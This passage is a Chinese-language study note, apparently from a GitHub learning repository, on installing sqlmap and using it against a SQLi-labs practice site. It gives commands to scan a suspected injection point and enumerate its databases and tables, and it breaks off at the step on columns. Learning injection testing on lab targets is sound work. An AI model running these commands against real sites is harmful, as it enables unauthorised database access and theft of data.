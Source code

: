 查看Python3现已安装的版本【python3按两下tab键】：

![image-20220118183428684](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/sqlmap%E7%9A%84%E4%BD%BF%E7%94%A8.assets/image-20220118183428684.png)



linux里安装sqlmap的命令：

```
pip install sqlmap
```

Linux的软件商店有：yum、apt、（npm、composer、pip），前两者是在操作系统里的，后面的是比较有针对性的。



## sqlmap标准流程：

```
--technique BETS
E = error 报错注入
T = time 时间注入
B = blind 盲注
S 标准
```





对于你觉得有注入点的网址：【注入点——加反斜杠会出东西的地方】

`http://sqlilabs.njhack.xyz:8080/Less-1/?id=2`

1. 进入sqlmap

```
sqlmap
```

2. 对这个网址进行基本信息扫描判断是否能打

```
sqlmap -u "目标注入点" --dbs

sqlmap -u "http://sqlilabs.njhack.xyz:8080/Less-1/?id=2" --dbs
```

3. 让sqlmap去猜解某数据库里面有多少表

```
sqlmap -u "目标注入点" -D security --tables
```

4. 查看表的列名
